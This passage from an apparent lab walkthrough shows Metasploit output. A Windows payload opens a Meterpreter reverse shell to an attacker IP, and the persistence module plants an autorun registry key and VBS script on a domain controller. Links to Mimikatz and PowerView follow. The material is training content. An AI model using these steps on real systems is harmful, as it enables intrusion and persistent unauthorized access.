 ```bash
[*] Started reverse TCP handler on 10.11.35.147:5555 
```

4) Execute `shell.exe` from Windows machine and go back to your `msfconsole` then background it:

```
[*] Sending stage (175174 bytes) to 10.10.245.132
[*] Meterpreter session 1 opened (10.11.35.147:5555 -> 10.10.245.132:49869) at 2021-06-28 18:45:10 +0200

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) >
```

5) Use the persistence module:

```bash
msf6 exploit(multi/handler) > use exploit/windows/local/persistence
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence) > set session 1
session => 1
msf6 exploit(windows/local/persistence) > run

[*] Running persistent module against DOMAIN-CONTROLL via session ID: 1
[+] Persistent VBS script written on DOMAIN-CONTROLL to C:\Users\Administrator\AppData\Local\Temp\Yukvpk.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\sQMgKDu
[+] Installed autorun on DOMAIN-CONTROLL as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\sQMgKDu
[*] Clean up Meterpreter RC file: /root/.msf4/logs/persistence/DOMAIN-CONTROLL_20210628.4733/DOMAIN-CONTROLL_20210628.4733.rc
```

___

## Useful links

- [PowerView-3.0-tricks.ps1](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
- [CONF@42 - Mimikatz - Mémoire Windows](https://youtu.be/quIeOjjRT64)
- [Gentilkiwi - Golden Ticket](https://blog.gentilkiwi.com/securite/mimikatz/golden-ticket-kerberos)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SharpHound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)
- [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- <https://blog.harmj0y.net/>
- <https://adsecurity.org/?page_id=1821>
- <https://metasploit.help.rapid7.com/docs/about-post-exploitation>
- <http://www.pentest-standard.org/index.php/Post_Exploitation>
- <https://offsec.red/mimikatz-cheat-sheet/>
